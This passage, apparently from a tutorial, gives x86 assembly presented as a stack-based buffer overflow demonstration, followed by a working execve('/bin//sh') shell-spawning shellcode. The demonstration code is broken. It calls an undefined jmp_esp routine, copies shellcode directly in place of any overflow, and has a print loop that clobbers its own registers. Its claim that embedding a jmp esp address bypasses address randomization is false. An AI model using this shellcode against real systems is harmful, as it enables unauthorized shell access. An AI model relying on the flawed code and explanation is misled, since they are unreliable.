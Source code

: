 ```assembly
    mov ecx, shellcode_len ; Length of the shellcode
    rep movsb              ; Move the shellcode byte-by-byte into the buffer

    ; Jump to shellcode
    call jmp_esp           ; Call jmp esp instruction to jump to the buffer

    ; Exit the program
    mov eax, 1             ; Syscall number for sys_exit
    xor ebx, ebx           ; Return status (0)
    int 0x80               ; Call kernel

print_string:
    ; Print the null-terminated string at the address in ecx
    mov edx, 0             ; Clear edx (end of string marker)
.loop:
    mov al, [ecx]          ; Load the next character from memory
    cmp al, 0              ; Check if it's the null terminator
    je .done               ; If it is, we're done printing
    mov eax, 4             ; Syscall number for sys_write
    mov ebx, 1             ; File descriptor for stdout
    mov edx, 1             ; Length of the character to print
    int 0x80               ; Call kernel to print the character
    inc ecx                ; Move to the next character
    jmp .loop              ; Repeat until null terminator is found
.done:
    ret                    ; Return from the subroutine

section .bss
    shellcode resb 24      ; Reserve space for shellcode
    shellcode_len equ ($ - shellcode)
```

This program demonstrates a basic stack-based buffer overflow vulnerability with shellcode injection. It displays a welcome message, injects shellcode into a buffer, and then jumps to the buffer to execute the shellcode. Additionally, it includes an address of the `jmp esp` instruction in the program itself, bypassing address randomization commonly used in modern operating systems.

To demonstrate this vulnerability, you can insert your shellcode into the `shellcode` section of the program. Here's an example of a simple shellcode that spawns a shell:

```assembly
section .bss
    shellcode resb 24      ; Reserve space for shellcode
    shellcode_len equ ($ - shellcode)

section .text
    global _start

_start:
    ; Shellcode to spawn a shell
    xor eax, eax           ; Clear eax register
    push eax               ; Push null byte onto the stack
    push 0x68732f2f        ; Push "//sh" onto the stack
    push 0x6e69622f        ; Push "/bin" onto the stack
    mov ebx, esp           ; Move stack pointer to ebx (pointer to "/bin//sh")
    mov ecx, eax           ; Null out ecx
    mov edx, eax           ; Null out edx
    mov al, 0xb            ; syscall number for execve
    int 0x80               ; Call kernel
```
